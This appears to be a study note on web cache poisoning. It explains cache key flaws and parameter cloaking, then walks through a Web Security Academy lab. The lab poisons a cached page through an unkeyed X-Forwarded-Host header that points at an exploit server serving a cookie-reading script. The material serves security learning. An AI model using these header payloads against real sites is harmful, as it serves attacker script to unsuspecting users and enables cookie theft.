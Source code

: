 # Web Cache Poisoning
Web cache poisoning involves two phases. First, the attacker must work out how to elicit a response from the back-end server that inadvertently contains some kind of dangerous payload. Once successful, they need to make sure that their response is cached and subsequently served to the intended victims.

## Cache key flaws
- **Unkeyed port**
- **Unkeyed query string:** the following entries might all be cached separately but treated as equivalent to `GET /` on the back-end:
  - Apache: `GET //`
  - Nginx: `GET /%2F`
  - PHP: `GET /index.php/xyz`
  - .NET: `GET /(A(xyz))/`
- **Parameter cloaking:** e.g. this request `GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here` many caches will only interpret this as two parameters, delimited by the ampersand: `keyed_param=abc` and `excluded_param=123;keyed_param=bad-stuff-here`. The cache key only contains: `keyed_param=abc`. But at the backend server, Ruby on Rails sees the semicolon and splits the query string into three separate parameters: `keyed_param=abc`, `excluded_param=123` and `keyed_param=bad-stuff-here`. Successfully poisoned the `keyed_param=bad-stuff-here`.

## Constructing a web cache poisoning attack
- **Identify and evaluate unkeyed inputs (use Param Miner's Guess Header):** Web caches ignore unkeyed inputs when deciding whether to serve a cached response to the user. This behavior means that you can use them to inject your payload and elicit a "poisoned" response which, if cached, will be served to all users whose requests have the matching cache key. 
- **Elicit a harmful response**
- **Get the response cached**

### LAB: Web cache poisoning with an unkeyed header
Notice the header `X-Forwarded-Host` is unkeyed and the value is reflected inside the `src` attribute:

    <script type="text/javascript" src="//0a64005404db30c780247b97002100ef.web-security-academy.net/resources/js/tracking.js">

Now visit the exploit server and add this script:

    alert(document.cookie)

Try sending a `GET / HTTP/1.1` request with this header:

    X-Forwarded-Host: exploit-0aaf007c04bc306e80667a2b010d00be.exploit-server.net/exploit

Notice the response is now appending the `/resources/js/tracking.js` to our URL which is not where our script is. To correctly point it to our script's location, use this:

    X-Forwarded-Host: exploit-0aaf007c04bc306e80667a2b010d00be.exploit-server.net/exploit">

Send the request to make the cache server store it. When the victim visits `/`, he will be served with the response calling to our script.
